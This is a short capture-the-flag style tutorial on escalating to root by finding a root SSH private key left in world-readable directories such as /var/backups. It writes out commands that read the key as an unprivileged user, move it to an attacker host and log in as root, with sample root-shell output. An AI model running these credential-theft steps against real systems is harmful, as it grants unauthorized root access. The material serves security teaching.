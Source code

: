 A common misconfiguration that may see in CTF machines is where the private key is stored in insecure locations, in directories in which we have read permissions:

```bash
/tmp
/var/tmp
/var/backups
/var/www/html
/opt
/.ssh
/.custom_hidden_directory
```

Let's create a backup of the private key (normally we wouldn't do this in a real machine):

```bash
root@pwn:~# cp /root/.ssh/id_rsa /var/backups && chmod 755 -R /var/backups
```

Switch to the user-privileged user, to simulate the adversary scenario:

```bash
user@pwn:~$ ls -la /var/backups/id_rsa 
-rwxr-xr-x 1 root root 2602 Dec 20 20:45 /var/backups/id_rsa
user@pwn:~$ cat /var/backups/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----

```

As the adversary, we would either copy this text and create a file in our adversary host or transfer this file to our adversary host.

In our adversary host we must add the correct permissions to the private key:

```bash
chmod 600 id_rsa
```

Finally, log in as the owner of the private key and connect to the target host:

```bash
ssh -i id_rsa root@10.10.10.14
```

The output will look something like this:

```bash
❯ ssh -i id_rsa root@10.10.10.14
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-43-generic x86_64)

<...SNIP...>

root@pwn:~# whoami
root
root@pwn:~# hostname
ubuntu
```
